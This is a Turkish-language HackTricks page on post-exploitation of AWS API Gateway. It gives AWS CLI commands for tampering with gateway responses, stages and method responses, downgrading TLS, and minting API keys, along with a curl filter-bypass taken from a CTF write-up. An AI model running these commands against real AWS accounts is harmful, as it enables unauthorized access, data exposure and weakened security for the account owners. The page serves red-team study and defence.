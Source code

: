 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'da takip edin.**
* **HackTricks'e PR göndererek hacking ipuçlarını paylaşın** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına.

</details>
{% endhint %}

## API Gateway

Daha fazla bilgi için kontrol edin:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Açığa Çıkmamış API'lere Erişim

[https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) adresinde `com.amazonaws.us-east-1.execute-api` servisi ile bir endpoint oluşturabilirsiniz, bu endpoint'i erişiminizin olduğu bir ağda (potansiyel olarak bir EC2 makinesi aracılığıyla) açığa çıkarabilir ve tüm bağlantılara izin veren bir güvenlik grubu atayabilirsiniz.\
Daha sonra, EC2 makinesinden endpoint'e erişebilir ve daha önce açığa çıkmamış olan gateway API'sini çağırabilirsiniz.

### Request body passthrough'u Atlatma

Bu teknik [**bu CTF yazısında**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp) bulunmuştur.

[**AWS dokümantasyonunda**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) `PassthroughBehavior` bölümünde belirtildiği gibi, varsayılan olarak, **`WHEN_NO_MATCH`** değeri, isteğin **Content-Type** başlığını kontrol ederken, isteği dönüşüm yapmadan arka uca iletecektir.

Bu nedenle, CTF'de API Gateway, `Content-Type: application/json` ile bir istek gönderildiğinde bir yanıt içinde bayrağın sızdırılmasını **önleyen** bir entegrasyon şablonuna sahipti:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Ancak, **`Content-type: text/json`** ile bir istek göndermek bu filtreyi engeller.&#x20;

Son olarak, API Gateway sadece `Get` ve `Options`'a izin verdiğinden, gövdede sorgu ile bir POST isteği göndererek ve `X-HTTP-Method-Override: GET` başlığını kullanarak herhangi bir sınırlama olmadan rastgele bir dynamoDB sorgusu göndermek mümkündü:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Usage Plans DoS

**Enumeration** bölümünde, anahtarların **kullanım planını nasıl elde edeceğinizi** görebilirsiniz. Eğer anahtara sahipseniz ve bu anahtar **ayda X kullanım ile sınırlıysa**, **sadece kullanarak bir DoS saldırısı gerçekleştirebilirsiniz**.

**API Key** sadece **`x-api-key`** adlı bir **HTTP header** içine **dahil edilmelidir**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

`apigateway:UpdateGatewayResponse` ve `apigateway:CreateDeployment` izinlerine sahip bir saldırgan, **mevcut bir Gateway Response'u, hassas bilgileri sızdıran veya kötü niyetli scriptler çalıştıran özel başlıklar veya yanıt şablonları içerecek şekilde değiştirebilir**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potansiyel Etki**: Hassas bilgilerin sızması, kötü amaçlı komut dosyalarının çalıştırılması veya API kaynaklarına yetkisiz erişim.

{% hint style="info" %}
Test edilmesi gerekiyor
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

`apigateway:UpdateStage` ve `apigateway:CreateDeployment` izinlerine sahip bir saldırgan, **trafiği farklı bir aşamaya yönlendirmek veya önbelleğe alınmış verilere yetkisiz erişim sağlamak için önbellek ayarlarını değiştirmek amacıyla mevcut bir API Gateway aşamasını değiştirebilir**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potansiyel Etki**: Yetkisiz erişimle önbelleğe alınmış verilere ulaşma, API trafiğini kesintiye uğratma veya engelleme.

{% hint style="info" %}
Test edilmesi gerekiyor
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

`apigateway:PutMethodResponse` ve `apigateway:CreateDeployment` izinlerine sahip bir saldırgan, **mevcut bir API Gateway REST API yönteminin yanıtını, hassas bilgileri sızdıran veya kötü niyetli komut dosyalarını çalıştıran özel başlıklar veya yanıt şablonları içerecek şekilde değiştirebilir**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potansiyel Etki**: Hassas bilgilerin sızması, kötü amaçlı komut dosyalarının çalıştırılması veya API kaynaklarına yetkisiz erişim.

{% hint style="info" %}
Test edilmesi gerekiyor
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

`apigateway:UpdateRestApi` ve `apigateway:CreateDeployment` izinlerine sahip bir saldırgan, **API Gateway REST API ayarlarını değiştirerek loglamayı devre dışı bırakabilir veya minimum TLS sürümünü değiştirebilir, bu da API'nin güvenliğini potansiyel olarak zayıflatabilir**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potansiyel Etki**: API'nin güvenliğini zayıflatma, yetkisiz erişime izin verme veya hassas bilgileri açığa çıkarma potansiyeli.

{% hint style="info" %}
Test edilmesi gerekiyor
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

`apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan` ve `apigateway:CreateUsagePlanKey` izinlerine sahip bir saldırgan, **yeni API anahtarları oluşturabilir, bunları kullanım planlarıyla ilişkilendirebilir ve ardından bu anahtarları API'lere yetkisiz erişim için kullanabilir**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Potansiyel Etki**: API kaynaklarına yetkisiz erişim, güvenlik kontrollerinin atlatılması.

{% hint style="info" %}
Test edilmesi gerekiyor
{% endhint %}

<details>

<summary><strong>Sıfırdan kahramana AWS hacking öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> ile!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizin HackTricks'te reklamını görmek** veya **HackTricks'i PDF olarak indirmek** istiyorsanız [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT**](https://opensea.io/collection/the-peass-family) koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'i keşfedin
* **💬 Discord grubuna** [**katılın**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live) **takip edin.**
* **HackTricks** ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına PR göndererek **hacking ipuçlarınızı paylaşın**.

</details>
